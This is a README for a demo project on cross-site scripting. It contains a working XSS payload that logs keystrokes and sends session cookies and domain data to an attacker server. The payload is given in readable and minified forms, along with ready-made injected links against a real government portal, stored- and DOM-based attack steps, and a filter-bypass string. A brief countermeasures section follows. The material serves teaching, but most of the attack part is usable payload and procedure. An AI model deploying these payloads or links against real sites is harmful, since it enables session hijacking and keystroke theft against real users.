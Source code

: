 # TTC-Connect XSS
This is a demo project designed to demonstrate how cross-site scripting works and how it can be used to exploit vulnerabilities in websites. 


## Description
Our demo environment will consist of a specially crafted malicious code which performs the following:
* Capture the session domain of the victim
* Capture the session cookie of the victim
* Capture the key strokes of the victim
* Sends the captured information to our attacker server and save it to a file

This script will be used to perform a:
* [Reflected XSS Attack](https://www.owasp.org/index.php/Testing_for_Reflected_Cross_site_scripting_(OTG-INPVAL-001))
* [Stored XSS Attack](https://www.owasp.org/index.php/Testing_for_Stored_Cross_site_scripting_(OTG-INPVAL-002))
* [DOM-based XSS Attack](https://www.owasp.org/index.php/DOM_Based_XSS)

### Requirements
The following components needs to be installed to replicate the demo
* [Node JS](https://nodejs.org/en/) - Install NoeJs to run and host our attacker server
* A browser with XSS Filter disabled - IE was used in our demonstration
* A browser with XSS Filter enabled - Chrome was used in our demonstration



### Locate a exploitable website 
* We used [TT-Connect](http://www.ttconnect.gov.tt/gortt/portal/ttconnect/!ut/p/a1/04_Sj9CPykssy0xPLMnMz0vMAfGjzOK9A40MTD0tjQ38Aw0sDYyCPA1dDUy9jd29DIAKIoEKDHAARwNC-r3ACvDoB1pgVOTr7JuuH1WQWJKhm5mXlq8fUVKSnJ-Xl5pcoh-uH4VmR5C7G9AOV1NDD-8wY6AhUAV47CjIjajySQv2BACEOlbd/dl5/d5/L2dBISEvZ0FBIS9nQSEh/) Website as our example.
* To determine whether a site is susceptible to a XSS attack, we perform the following tests:
  * HTML Test
    ```
    <h1> test </h1>
    ```
  * Plain Javascript Test
    ```
    <script< alert('test') </script>
    ```
  * HTML Attribute Test
    ```
    <svg onload=alert(1)>
    ```
    
  * HTML Attribute Javascript Test
    ```
    <svg onload=alert(1)>
    ```
  Enter the above codes in the [TT-Connect](http://www.ttconnect.gov.tt/gortt/portal/ttconnect/!ut/p/a1/04_Sj9CPykssy0xPLMnMz0vMAfGjzOK9A40MTD0tjQ38Aw0sDYyCPA1dDUy9jd29DIAKIoEKDHAARwNC-r3ACvDoB1pgVOTr7JuuH1WQWJKhm5mXlq8fUVKSnJ-Xl5pcoh-uH4VmR5C7G9AOV1NDD-8wY6AhUAV47CjIjajySQv2BACEOlbd/dl5/d5/L2dBISEvZ0FBIS9nQSEh/) Website as our example. search bar to see the result. 
  
  You should get the following results:
  * On a XSS Filtered enabled browser, only HTML test will pass
  * On a XSS Filtered disabled browser, all test except Plain Javascript test will pass
 
### Design your malicious script
We have designed the following script to attack our target websites
```
 <!-- Injected script that logs user's key press, domain and -->
    <img hidden src='x' onerror="document.onkeypress=function(e){ 
        var xhr = new XMLHttpRequest(); //Create new http request
        //Configure HTTP POST request to be send to attacker server
        xhr.open('POST', 'http://localhost:3000/candy?k='+String.fromCharCode(e.which)); //Send keystroke as paramater
        //Allow CORS and use of JSON 
        xhr.setRequestHeader('Content-Type', 'application/json', 'Access-Control-Allow-Origin','localhost:3000'); 
        //Send HTTP POST request with the defined body containing cookie and domain
        xhr.send(JSON.stringify({domain:document.domain , cookie: document.cookie}))}"
    />
```
Usable Minimized Version
```
 <img hidden src='x' onerror="document.onkeypress=function(e){ var xhr = new XMLHttpRequest(); xhr.open('POST', 'http://localhost:3000/candy?k='+String.fromCharCode(e.which)); xhr.setRequestHeader('Content-Type', 'application/json', 'Access-Control-Allow-Origin','localhost:3000'); xhr.send(JSON.stringify({domain:document.domain , cookie: document.cookie}))}"/>
```

### Perform a Reflected XSS Attack
* Clone this project
  ```
  git clone https://github.com/HaifengMei/ttconnect-xss.git
  ```
* Go inside project directory
  ```
  cd ttconnect-xss
  ```
* Install necessary packages
  ```
  npm install
  ```
* Run application server
  ```
  node app.js
  ```
* Access on a  XSS Filter disabled browser the following link which has the attack script injected
[Injected TT Connect Link](http://www.ttconnect.gov.tt/gortt/portal/ttconnect/!ut/p/a1/04_Sj9CPykssy0xPLMnMz0vMAfGjzOK9A40MTD0tjQ0sfLycDYyCfM1CLf0MDA3cDYEKIpEV-Ae5uwEVuJoaeniHGRsYGBCn3wAHcCSoP1w_ClWJf6CBJVCJp6Grgam3sbuXAYYCTCeCFeBxQ0FuaIRBpqciAKjdE-c!/dl5/d5/L2dBISEvZ0FBIS9nQSEh/?searchKeyword=++++%3Cimg+hidden+src%3D%27x%27+onerror%3D%22document.onkeypress%3Dfunction%28e%29%7B+var+xhr+%3D+new+XMLHttpRequest%28%29%3B+xhr.open%28%27POST%27%2C+%27http%3A%2F%2Flocalhost%3A3000%2Fcandy%3Fk%3D%27%2BString.fromCharCode%28e.which%29%29%3B+xhr.setRequestHeader%28%27Content-Type%27%2C+%27application%2Fjson%27%2C+%27Access-Control-Allow-Origin%27%2C%27localhost%3A3000%27%29%3B+xhr.send%28JSON.stringify%28%7Bdomain%3Adocument.domain+%2C+cookie%3A+document.cookie%7D%29%29%7D%22%2F%3E&ctl00%24HomeSearchBar1%24HiddenField1=&selectedCategory=entireSite&ctl00%24HomeSearchBar1%24submit_button.x=0&ctl00%24HomeSearchBar1%24submit_button.y=0)

* Type something on the page so the script will activate

* Open sessiondata.txt in your project root directory to see logged information

### Perform a Stored XSS Attack
* Ensure the attack server is running
* Access the following
[Vulnerable Forum](https://xss-game.appspot.com/level2/frame)
* The website current contains no cookies, you may set the cookie to a value for demonstration purposes
  * Juse open console with F12 and type the following and press enter
    ```
    document.cookie = "username: Persius, password: 1234"
    ```
* Submit the following script as a comment
```
 <img hidden src='x' onerror="document.onkeypress=function(e){ var xhr = new XMLHttpRequest(); xhr.open('POST', 'http://localhost:3000/candy?k='+String.fromCharCode(e.which)); xhr.setRequestHeader('Content-Type', 'application/json', 'Access-Control-Allow-Origin','localhost:3000'); xhr.send(JSON.stringify({domain:document.domain , cookie: document.cookie}))}"/>
```
* Type something on the page so the script will activate

* Open sessiondata.txt in your project root directory to see logged information

### Perform a DOM-based XSS Attack
* Ensure the attack server is running
* The website current contains no cookies, you may set the cookie to a value for demonstration purposes
  * Juse open console with F12 and type the following and press enter
    ```
    document.cookie = "username: DOMinic, password: 4321"
    ```
* Access the following injected link
[Injected TT Connect Link](https://xss-game.appspot.com/level1/frame?query=%3Cimg+hidden+src%3D%27x%27+onerror%3D%22document.onkeypress%3Dfunction%28e%29%7B+var+xhr+%3D+new+XMLHttpRequest%28%29%3B+xhr.open%28%27POST%27%2C+%27http%3A%2F%2Flocalhost%3A3000%2Fcandy%3Fk%3D%27%2BString.fromCharCode%28e.which%29%29%3B+xhr.setRequestHeader%28%27Content-Type%27%2C+%27application%2Fjson%27%2C+%27Access-Control-Allow-Origin%27%2C%27localhost%3A3000%27%29%3B+xhr.send%28JSON.stringify%28%7Bdomain%3Adocument.domain+%2C+cookie%3A+document.cookie%7D%29%29%7D%22%2F%3E)

* Type something on the page so the script will activate

* Open sessiondata.txt in your project root directory to see logged information

### Counter Measures
* [X-XSS-Protection](https://developer.mozilla.org/en-US/docs/Web/HTTP/Headers/X-XSS-Protection)
  * Try [Injected TT Connect Link](http://www.ttconnect.gov.tt/gortt/portal/ttconnect/!ut/p/a1/04_Sj9CPykssy0xPLMnMz0vMAfGjzOK9A40MTD0tjQ0sfLycDYyCfM1CLf0MDA3cDYEKIpEV-Ae5uwEVuJoaeniHGRsYGBCn3wAHcCSoP1w_ClWJf6CBJVCJp6Grgam3sbuXAYYCTCeCFeBxQ0FuaIRBpqciAKjdE-c!/dl5/d5/L2dBISEvZ0FBIS9nQSEh/?searchKeyword=++++%3Cimg+hidden+src%3D%27x%27+onerror%3D%22document.onkeypress%3Dfunction%28e%29%7B+var+xhr+%3D+new+XMLHttpRequest%28%29%3B+xhr.open%28%27POST%27%2C+%27http%3A%2F%2Flocalhost%3A3000%2Fcandy%3Fk%3D%27%2BString.fromCharCode%28e.which%29%29%3B+xhr.setRequestHeader%28%27Content-Type%27%2C+%27application%2Fjson%27%2C+%27Access-Control-Allow-Origin%27%2C%27localhost%3A3000%27%29%3B+xhr.send%28JSON.stringify%28%7Bdomain%3Adocument.domain+%2C+cookie%3A+document.cookie%7D%29%29%7D%22%2F%3E&ctl00%24HomeSearchBar1%24HiddenField1=&selectedCategory=entireSite&ctl00%24HomeSearchBar1%24submit_button.x=0&ctl00%24HomeSearchBar1%24submit_button.y=0) on a XSS-Filter enabled browser, it will get blocked
  
 * Implement [XSS Prevention Rules](https://www.owasp.org/index.php/XSS_(Cross_Site_Scripting)_Prevention_Cheat_Sheet#XSS_Prevention_Rules) by performing the following searched on [XSS-Proof Website](https://agriculture.gov.tt/):
 * Escaped HTML Test
   ```
   <h1> test </h1>
   ```
 * Escaped Plain Javascript Test
   ```
   <script< alert('test') </script>
   ```
 * Escaped HTML Attribute Test
   ```
   <svg onload=alert(1)>
   ```
 * Escaped HTML Attribute Javascript Test
   ```
   <svg onload=alert(1)>
   ```
### XSS Filter Bypass
Although X-XSS-Protection designed into browser works for common attacks, there exits [bypasses](https://www.owasp.org/index.php/XSS_Filter_Evasion_Cheat_Sheet) that allow hackers to execute their malicious scripts.

A Japanese hacker posted a [github repo](https://github.com/masatokinugawa/filterbypass/wiki/Browser%27s-XSS-Filter-Bypass-Cheat-Sheet#ieedge%E3%81%AExss%E3%83%95%E3%82%A3%E3%83%AB%E3%82%BF%E3%83%BC) that contains some working bypass for the latest XSS filters in Chrome, IE11/Edge and Safari

Following example shows that rearranging the script and encoding some characters will bypass the filter in Chrome
```
<svg o<script>nload=alert(1)>
↓
<svg onload=alert(1)>
```
Try the link and see for yourself

https://vulnerabledoma.in/bypass/text?type=6&q=%3Csvg%20o%3Cscript%3Enload=alert(1)%3E
